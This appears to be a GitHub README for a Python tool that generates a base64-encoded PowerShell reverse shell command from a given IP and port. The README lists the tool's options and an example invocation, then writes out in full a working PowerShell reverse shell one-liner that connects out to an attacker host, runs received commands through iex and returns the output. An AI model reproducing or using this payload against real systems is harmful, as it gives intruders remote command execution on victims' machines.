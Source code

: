 # psh_reverse_OneLine
Generate the command to make a powershell revershell (the one liner encoded in base64)

syntax:

	--help or -h	print manual
 
	--ip or -i	specify IP
 
	--port or -p	specify port
 
Example:

	python3 psh_reverse_OneLine.py -i 192.168.1.2 -p 4444

![Screenshot_20231011_232617](https://github.com/toto22222/psh_reverse_OneLine/assets/104328855/3c439b84-6da4-4947-bd4e-095009622eee)

FYI, the powershell reverse shell one liner code as below:

	$client = New-Object System.Net.Sockets.TCPClient("<your IP>", <your port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
